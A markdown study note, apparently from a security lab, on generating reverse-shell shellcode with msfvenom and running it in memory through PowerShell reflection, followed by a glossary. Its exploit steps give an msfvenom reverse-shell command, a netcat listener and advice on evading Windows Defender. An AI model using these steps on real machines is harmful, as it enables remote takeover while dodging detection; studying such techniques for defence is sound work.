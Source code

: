 - Grasp the fundamentals of writing shellcode ✅
- Generate shellcode for reverse shells ✅
- Executing shellcode with PowerShell ✅

# TLDR:
- **Shellcode**: Small, exploitative code (often in assembly) used for attacks like buffer overflows to execute commands or gain control over systems.

- **PowerShell**: Windows scripting tool for task automation, frequently abused by attackers for post-exploitation due to its access to system internals and ability to avoid disk-based detection.

- **Windows Defender**: Security software to detect malicious scripts, which attackers bypass using obfuscation or reflective injection to load code into memory.

- **Windows API**: Interfaces allowing interaction with the operating system. Commonly exploited functions include `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject`.

- **PowerShell Reflection**: Technique to dynamically call Windows API functions in PowerShell, enabling stealthy execution of code.

- **Reverse Shell**: A connection where the target system (victim) connects back to the attacker’s machine, providing remote access.
  
# Exploit:
1. **Generate Shellcode:** Using msfvenom we generate shellcode for PowerShell: 
	`msfvenom -p windows/x64/shell_reverse_tcp LHOST=VM_IP LPORT=1111 -f powershell`
2. **Prepare Execution Script**: 
   * Use PowerShell with embedded C# code to dynamically call Windows API functions.
   * Insert generated shellcode into the script as hex-encoded byte array
   * Allocate memory with `VirtualAlloc`, copy shellcode, create a new thread to execute the shellcode and wait for completion.
3. **Deploy Script:** 
   * Paste the script into PowerShell on target machine
   * Execute step by step to avoid detection
4. Establish Reverse Shell:
   * On the attacker's machine use `nc -nvlp 1111` to listen for the connection.
   * After executing PowerShell script on target, gain shell access
# Deepened:
## Essential Terminologies
- **Shellcode**: A piece of code usually used by malicious actors during exploits like **buffer overflow** attacks to inject commands into a vulnerable system, often leading to executing arbitrary commands or giving attackers control over a compromised machine. Shellcode is typically written in assembly language and delivered through various techniques, depending on the exploited vulnerability.

- **PowerShell**: A powerful scripting language and command-line shell built into **Windows** for **task automation** and **configuration management**. It allows users to interact with system components and is widely used by administrators for legitimate purposes. However, attackers often use PowerShell as **a post-exploitation** tool because of its deep access to system resources and ability to run scripts directly in memory, **avoiding disk-based detection mechanisms.**
